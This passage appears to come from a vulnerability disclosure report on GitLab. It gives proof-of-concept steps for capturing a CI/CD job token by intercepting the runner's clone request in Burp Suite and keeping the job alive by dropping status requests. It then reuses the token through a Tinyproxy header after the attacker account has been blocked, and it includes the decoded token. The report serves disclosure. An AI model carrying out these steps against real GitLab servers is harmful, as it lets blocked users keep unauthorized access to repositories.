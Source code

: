 {F425053}


###PoC Part 2: Obtain CI/CD token


-Turn on Burp Suite intercept and run the pipeline for the **block_poc** project.  Intercept the request that the gitlab-runner makes when it attempts to clone the repository.  This will contain the CI/CD token,   ***DO NOT SWITCH OFF THE INTERCEPT YET***

{F425055}


```
GET /testuser1/block_poc.git/info/refs?service=git-upload-pack HTTP/1.1
Host: 192.168.0.16
Authorization: Basic Z2l0bGFiLWNpLXRva2VuOlVwbnllR2plRlo4cV95UnptV1Fx
User-Agent: git/2.17.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US, *;q=0.9
Pragma: no-cache
Connection: close
```

The Token can be base64 decoded which will reveal the following:

==gitlab-ci-token:UpnyeGjeFZ8q_yRzmWQq==


-Continue moving through the HTTP requests in Burp until you encounter the gitlab-runner sending trace logs and a status update back to the GitLab server.  Drop these requests, usually there are about 2/3.

{F425054}
{F425057}

>Note.  There is no need to drop the runners standard job polling requests
   
-The CI/CD job is now in a continuous running state and as can be seen below and will not be terminated even if it passes the timeout threshold of 10 minutes.  The attacking user or a GitLab admin would have to manually stop the job, until that point, the CI/CD token is still active.

{F425056}


###PoC Part3: Token usage

-As the GitLab server root user, block the attacker user account **testuser1**

{F425058}
{F425059}

-As the attacker user, install Tinyproxy on the attacker's host **192.168.0.9**.  We will use this software as a forward proxy for the attacker's Git client and append the GitLab CI/CD token as a HTTP header for all outbound traffic

```bash
$ apt-get install tinyproxy
$ vim /etc/tinyproxy/tinyproxy.conf
	#Add the following content
	Port 1234    #changed from default
	AddHeader Authorization: Basic Z2l0bGFiLWNpLXRva2VuOlVwbnllR2plRlo4cV95UnptV1Fx
$ :wq
$ systemctl enable tinyproxy
$ systemctl start tinyproxy
```
>Note. Token above will change on each job run
